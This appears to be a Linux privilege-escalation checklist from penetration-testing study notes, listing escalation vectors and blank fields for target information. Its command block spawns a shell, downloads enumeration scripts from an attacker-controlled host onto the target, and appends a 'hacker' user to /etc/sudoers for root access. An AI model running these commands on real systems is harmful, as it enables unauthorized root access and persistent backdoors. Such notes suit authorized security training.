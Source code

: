Now we start the whole enumeration-process over gain.

* Kernel exploits
* Programs running as root
* Installed software
* Weak/reused/plaintext passwords
* Inside service
* Suid misconfiguration
* World writable scripts invoked by root
* Unmounted filesystems

Less likely

* Private ssh keys
* Bad path configuration
* Cronjobs

#### To-try list

Here you will add all possible leads. What to try.

#### Useful commands

```
# Spawning shell
python -c 'import pty; pty.spawn("/bin/sh")'

# Access to more binaries
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

# Set up webserver
cd /root/oscp/useful-tools/privesc/linux/privesc-scripts; python -m SimpleHTTPServer 8080

# Download all files
wget http://192.168.1.101:8080/ -r; mv 192.168.1.101:8080 exploits; cd exploits; rm index.html; chmod 700 LinEnum.sh linprivchecker.py unix-privesc-check

./LinEnum.sh -t -k password -r LinEnum.txt
python linprivchecker.py extended
./unix-privesc-check standard


# Writable directories
/tmp
/var/tmp


# Add user to sudoers
echo "hacker ALL=(ALL:ALL) ALL" >> /etc/sudoers
```

#### Basic info

* OS:
* Version:
* Kernel version:
* Architecture:
* Current user:

